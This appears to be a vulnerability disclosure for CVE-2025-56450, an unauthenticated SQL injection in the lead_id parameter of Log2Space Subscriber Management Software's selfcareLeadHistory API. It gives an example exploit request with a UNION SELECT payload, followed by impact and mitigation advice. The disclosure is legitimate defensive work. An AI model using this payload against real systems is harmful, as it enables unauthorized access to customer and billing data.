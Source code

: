 # CVE-2025-56450
Unauthenticated SQL Injection in Log2Space Subscriber Management Software

**Overview:**

An unauthenticated SQL Injection vulnerability has been identified in the Log2Space Subscriber Management Software, specifically within the /l2s/api/selfcareLeadHistory API endpoint.
The flaw allows remote attackers to execute arbitrary SQL queries against the backend database without authentication

**Technical Details:**

POST /l2s/api/selfcareLeadHistory
Content-Type: multipart/form-data
Content-Disposition: form-data; name="lead_id"

**Vulnerable Parameter: lead_id**

**Example Exploit Payload**

POST /l2s/api/selfcareLeadHistory HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Length: xxx

------WebKitFormBoundary
Content-Disposition: form-data; name="lead_id"

1' UNION SELECT database(),version(),user()--
------WebKitFormBoundary--



<img width="960" height="364" alt="1 1" src="https://github.com/user-attachments/assets/bef52e64-4a7b-4412-83fb-664543e09f0a" />

<img width="960" height="432" alt="2" src="https://github.com/user-attachments/assets/d451ee3f-a1e2-42a5-957b-132f8a6a6ade" />


**Root Cause**

The lead_id parameter is directly concatenated into SQL queries without proper input validation or parameterized statements.
This results in full SQL injection vulnerability, allowing attackers to:

1. Enumerate database schemas and table names
2. Extract sensitive customer or billing data
3. Execute stacked queries
4. Potentially achieve remote code execution depending on DB configuration

**Impact**

1. Attackers can extract sensitive customer data from the database.
2. Under certain configurations, SQL injection can lead to remote code execution.
3. Attackers can manipulate or delete customer and billing data.

**Mitigation**

1. Implement parameterized queries (prepared statements) for all database operations.
2. Enforce strict input validation and sanitization on all user-supplied data.
3. Disable verbose SQL error messages in production environments.
4. Disable verbose SQL error messages in production environments.


